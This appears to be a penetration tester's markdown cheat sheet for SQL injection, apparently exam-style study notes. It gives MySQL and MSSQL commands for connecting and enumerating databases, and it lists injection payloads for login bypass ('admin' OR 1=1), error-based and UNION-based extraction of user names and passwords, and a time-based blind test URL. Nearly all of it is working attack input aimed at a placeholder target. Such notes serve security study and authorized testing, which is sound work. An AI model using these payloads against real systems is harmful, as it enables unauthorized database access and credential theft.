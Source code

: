 # SQL Injection Attacks
- [https://github.com/payloadbox/sql-injection-payload-list](https://github.com/payloadbox/sql-injection-payload-list)  
- [https://github.com/payloadbox/sql-injection-payload-list/blob/master/Intruder/exploit/Auth_Bypass.txt](https://github.com/payloadbox/sql-injection-payload-list/blob/master/Intruder/exploit/Auth_Bypass.txt)  
- [https://portswigger.net/web-security/sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
### **mysql**
- Remember to add `;` to the end of commands!
- Connect with `mysql -u root -p'root' -h target.ip.address.here -P 3306` 
	- If there's an SSL certificaste issue, add `--skip-ssl-verify-server-cert` on the end
- Find the SQL Version: `select version();`
- Verify current database user: `select system_user();`
- Show Available Databases: `show databases;`
- Retrieve authentication string for user: `SELECT user, authentication_string FROM mysql.user WHERE user = 'username';
- Retrieve all strings from a user: `SELECT * FROM mysql.user WHERE user = 'username';`
### **MSSQL**
- Use impacket (Kali tool) to connect: `impacket-mssqlclient username:password@target.ip.address.here -windows-auth`
- Find MSSQL version: `SELECT @@version;`
- Show Available Databases: `SELECT name FROM sys.databases;`
- Review a database: `SELECT * FROM databasenamehere.information_schema.tables;`
- Review a specific table: `select * from databasename.tableschema.tablename;`
- Retrieve a list of usernames: `select name from sys.database_principals;`
## Identifying SQLi via Error-base Payloads
From a browser login to an SQL database 
- Test authentication bypass via injection into username: `admin' OR 1=1 -- //`
- Find MySQL version with injection: `admin' OR 1=1 in (SELECT @@version) -- //`
- Find passwords with injection: `admin' OR 1=1 in (SELECT password FROM users) -- //`
- Find specific password: `admin' OR 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
### UNION-based payloads
From a browser login to an SQL database
- Determine number of table columns: `' ORDER BY 1-- //` 
	- Increase the value (eg. `2--`, `3--`, ect) until error, columns=errorvalue-1
- Create UNION query with # values = # columns: 
	- Eg. for columns=5: `%' UNION SELECT database(), user(), @@version, null, null -- //`
- To avoid clashes in column 1, shift values right: ````
	- Eg. for columns=5: `' UNION SELECT null, null, database(), user(), @@version  -- //
- Enumerate `columns` table: `' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
- Enumerate other tables identified from information_schema: `' UNION SELECT null, username, password, description, null FROM users -- //`
## Blind SQLi
In a browser address bar that shows username, test injection with a delay: `http://target.ip.address.here/login.php?user=username' AND IF (1=1, sleep(3),'false') -- //`
